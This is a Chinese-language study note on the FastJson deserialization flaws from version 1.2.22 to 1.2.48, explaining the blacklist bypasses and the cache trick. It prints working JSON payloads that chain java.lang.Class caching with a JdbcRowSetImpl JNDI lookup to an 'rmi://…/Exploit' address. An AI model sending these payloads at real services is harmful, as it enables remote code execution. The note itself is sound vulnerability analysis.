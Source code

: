 ```yaml
---
title: FastJson系列反序列化漏洞分析
date: 2022-2-23
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities
---
```


### 原理

* FastJson序列化对象为字符串使用toJSONString方法，反序列化还原对象使用：parseObject(String text)、parse(String text)、parseObject(String text, Class clazz)。其中，parseObject返回JSONObject，而parse返回的是实际类型的对象。当在没有对应类定义的情况下，会使用JSON.parseObject来获取数据。

* 而在反序列化的过程里，会自动调用反序列化对象中的getter、setter方法以及构造函数，这就是FastJson反序列化漏洞产生的原因。
* 反序列化的过程分成2步，首先是loadClass，在这个过程中会经过黑白名单检查，看这个类是否可以被反序列化。然后再进行deserialize。这个过程会不断的parse，去调用get or set方法，这个过程就可能出现恶意执行

### FastJson-1.2.22

恶意payload：

![image-20220414172531755](https://gitee.com/Chenforcode/chen-imagebed/raw/master/img/20220414172532.png)

type是要被反序列的类的类型。这个payload关键有两点，一个是bytecodes，另一个是outputProperties。

bytecodes就是包含恶意代码的恶意类，然后对他进行base64编码，生成字节码数组得到的。

![image-20220414172859344](https://gitee.com/Chenforcode/chen-imagebed/raw/master/img/20220414172859.png)

因为恶意代码已经被插入到了Template类前面，那么在对这个类进行实例化的时候，就会先执行恶意代码段，也就导致了漏洞。

具体执行的过程就是deserialize的过程，会不断的parse，一直到调用ouputProperties的get方法

![image-20220414190617752](https://gitee.com/Chenforcode/chen-imagebed/raw/master/img/20220414190617.png)

这个过程会调用defineTransletClasses()，里面会把bytecodes给class，相当于class就是bytecodes，然后newInstance。此时也就触发了前面插入的恶意代码段

### fastJson1.2.25-1.2.41，加黑名单，利用L绕过

### fastJson1.2.42 去除L判断黑名单，利用LL继续绕过

### fastJson1.2.44 L黑名单直接关闭

### fastJson 1.2.47 用Class控制缓存

因为在判断黑名单部分的逻辑是：首先看该类是否在缓存中，如果在，直接取。如果不在，那么进行黑名单判断。这也就存在漏洞，如果预先把类加到了缓存中，接下来判断的时候，就可以直接从缓存中取，不会进行黑名单判断。

因此，这里借助class，将jdbcRowSet加到缓存中，来绕过。

payload由两部分组成，首先是：

```json
{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}
```

这里会将com.sun.rowset.JdbcRowSetImpl加到缓存

第二部分就和之前一样：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Exploit","autoCommit":true}
```

在反序列化的时候，会调用setDataSourceName和setAutoCommit，在调用setAutoCommit的时候会调用connect方法，connect方法中会调用lookup

![image-20220414174333822](https://gitee.com/Chenforcode/chen-imagebed/raw/master/img/20220414174334.png)

![image-20220414174341103](https://gitee.com/Chenforcode/chen-imagebed/raw/master/img/20220414174341.png)

![image-20220414174350048](https://gitee.com/Chenforcode/chen-imagebed/raw/master/img/20220414174350.png)



### fastJson1.2.48 在loadClass时，将缓存开关设置为false，Class加入黑名单